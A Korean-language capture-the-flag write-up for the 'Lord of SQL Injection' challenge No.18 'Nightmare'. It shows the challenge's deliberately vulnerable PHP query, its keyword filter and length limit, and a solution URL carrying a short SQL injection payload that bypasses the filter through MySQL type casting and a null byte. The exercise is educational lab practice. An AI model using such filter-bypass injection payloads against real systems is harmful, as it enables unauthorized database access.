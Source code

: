 ﻿# Lord of SQL Injection No.18 Nightmare



Nightmare 문제는 문자열 길이 제한을 지키면서 필요없는 부분을 무력화시킬 수 있는지 알아보기 위한 문제이다.



## 소스 코드

```php

<?php

  include "./config.php"; 

  login_chk(); 

  dbconnect(); 

  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 

  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 

  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 

  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 

  $result = @mysql_fetch_array(mysql_query($query)); 

  if($result['id']) solve("nightmare"); 

  highlight_file(__FILE__); 

?>

```



```php

if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~");

```



`preg_match`에서 `prob`, `_`, `.`, `()`, `#`, `-`를 필터링하면 `No Hack ~_~` 을 출력한 후 문제 풀이에 실패하게 된다.



```php

$query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'";

```



`pw`를 입력받은 후 `and !='admin'`을 통해 `id`값이 `admin`이 아니면 항상 거짓을 반환하게 한다.



#### 문제 풀이 조건



```php

if($result['id']) solve("nightmare"); 

```



`id`값이 존재하기만 하면 문제 풀이에 성공하게 된다.



## Solution



```

http://los.eagle-jump.org/nightmare_***.php?pw=%27)=0;%00

```



`pw`문이 `()`로 갇혀있기 때문에 이를 이용하여 `MySQL Auto Casting` 을 유도하면 문자가 숫자로 시작하지 않아 0을 반환하게 되고

`0=0`은 항상 참이기 때문에 모든 `pw`절을 불러올 수 있게 되고 문제 풀이에 성공하게 된다.
